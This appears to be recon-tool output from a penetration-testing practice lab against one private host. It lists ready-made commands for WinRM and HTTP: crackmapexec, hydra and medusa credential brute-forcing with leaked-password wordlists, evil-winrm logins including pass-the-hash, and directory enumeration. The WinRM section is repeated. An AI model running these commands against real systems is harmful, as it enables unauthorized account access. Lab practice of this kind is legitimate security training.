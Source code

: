 [*] wsman on tcp/5985

	[-] Bruteforce logins:

		crackmapexec winrm 192.168.224.249 -d '<domain>' -u '/usr/share/seclists/Usernames/cirt-default-usernames.txt' -p '/usr/share/seclists/Passwords/darkweb2017-top100.txt'

	[-] Check login (requires credentials):

		crackmapexec winrm 192.168.224.249 -d '<domain>' -u '<username>' -p '<password>'

	[-] Evil WinRM (gem install evil-winrm):

		evil-winrm -u '<user>' -p '<password>' -i 192.168.224.249

		evil-winrm -u '<user>' -H '<hash>' -i 192.168.224.249

[*] http on tcp/47001

	[-] (feroxbuster) Multi-threaded recursive directory/file enumeration for web servers using various wordlists:

		feroxbuster -u http://192.168.224.249:47001 -t 100 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x "txt,html,php,asp,aspx,jsp,xml,config,bak" -v -k -n -e -r -o /home/kali/Documents/Relia/results/192.168.224.249/scans/tcp47001/tcp_47001_http_feroxbuster_dirbuster.txt

	[-] Credential bruteforcing commands (don't run these without modifying them):

		hydra -L "/usr/share/seclists/Usernames/cirt-default-usernames.txt" -P "/usr/share/seclists/Passwords/darkweb2017-top100.txt" -e nsr -s 47001 -o "/home/kali/Documents/Relia/results/192.168.224.249/scans/tcp47001/tcp_47001_http_auth_hydra.txt" http-get://192.168.224.249/path/to/auth/area

		medusa -U "/usr/share/seclists/Usernames/cirt-default-usernames.txt" -P "/usr/share/seclists/Passwords/darkweb2017-top100.txt" -e ns -n 47001 -O "/home/kali/Documents/Relia/results/192.168.224.249/scans/tcp47001/tcp_47001_http_auth_medusa.txt" -M http -h 192.168.224.249 -m DIR:/path/to/auth/area

		hydra -L "/usr/share/seclists/Usernames/cirt-default-usernames.txt" -P "/usr/share/seclists/Passwords/darkweb2017-top100.txt" -e nsr -s 47001 -o "/home/kali/Documents/Relia/results/192.168.224.249/scans/tcp47001/tcp_47001_http_form_hydra.txt" http-post-form://192.168.224.249/path/to/login.php:"username=^USER^&password=^PASS^":"invalid-login-message"

		medusa -U "/usr/share/seclists/Usernames/cirt-default-usernames.txt" -P "/usr/share/seclists/Passwords/darkweb2017-top100.txt" -e ns -n 47001 -O "/home/kali/Documents/Relia/results/192.168.224.249/scans/tcp47001/tcp_47001_http_form_medusa.txt" -M web-form -h 192.168.224.249 -m FORM:/path/to/login.php -m FORM-DATA:"post?username=&password=" -m DENY-SIGNAL:"invalid login message"

	[-] Bruteforce logins:

		crackmapexec winrm 192.168.224.249 -d '<domain>' -u '/usr/share/seclists/Usernames/cirt-default-usernames.txt' -p '/usr/share/seclists/Passwords/darkweb2017-top100.txt'

	[-] Check login (requires credentials):

		crackmapexec winrm 192.168.224.249 -d '<domain>' -u '<username>' -p '<password>'

	[-] Evil WinRM (gem install evil-winrm):

		evil-winrm -u '<user>' -p '<password>' -i 192.168.224.249

		evil-winrm -u '<user>' -H '<hash>' -i 192.168.224.249
